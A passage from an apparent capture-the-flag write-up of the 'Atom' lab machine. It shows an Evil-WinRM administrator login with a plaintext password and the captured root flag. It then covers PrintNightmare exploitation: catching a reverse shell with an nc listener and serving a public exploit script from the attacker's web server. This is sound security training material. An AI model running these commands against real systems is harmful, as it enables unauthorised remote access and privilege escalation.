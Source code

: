 
[Evil-WinRM](https://github.com/Hackplayers/evil-winrm) works to get a shell:

    
    
    oxdf@parrot$ evil-winrm -i 10.10.10.237 -u administrator -p 'kidvscat_admin_@123'
    
    Evil-WinRM shell v2.4
    
    Info: Establishing connection to remote endpoint
    
    *Evil-WinRM* PS C:\Users\Administrator\Documents> 
    

And the flag:

    
    
    *Evil-WinRM* PS C:\Users\Administrator\desktop> cat root.txt
    0e7896dd************************
    

## Beyond Root - PrintNightmare

Atom is vulnerable to CVE-2021-34527, or PrintNightmare. I show various POCs
in [this post](/2021/07/08/playing-with-printnightmare.html), but I can show
it quickly here as well.

I’ll catch the shell as jason from the Electron exploit, and switch to
PowerShell:

    
    
    oxdf@parrot$ nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.7] from (UNKNOWN) [10.10.10.237] 54371
    Microsoft Windows [Version 10.0.19042.906]
    (c) Microsoft Corporation. All rights reserved.
    
    C:\WINDOWS\system32>whoami
    atom\jason
    
    C:\WINDOWS\system32>powershell
    Windows PowerShell
    Copyright (C) Microsoft Corporation. All rights reserved.
    
    Try the new cross-platform PowerShell https://aka.ms/pscore6
    
    PS C:\WINDOWS\system32> 
    

I’ll start a webserver in the [Invoke-
Nightmare](https://github.com/calebstewart/CVE-2021-1675) directory on my
host:

    
    
    oxdf@parrot$ ls
    CVE-2021-1675.ps1  nightmare-dll  README.md
    oxdf@parrot$ python3 -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    

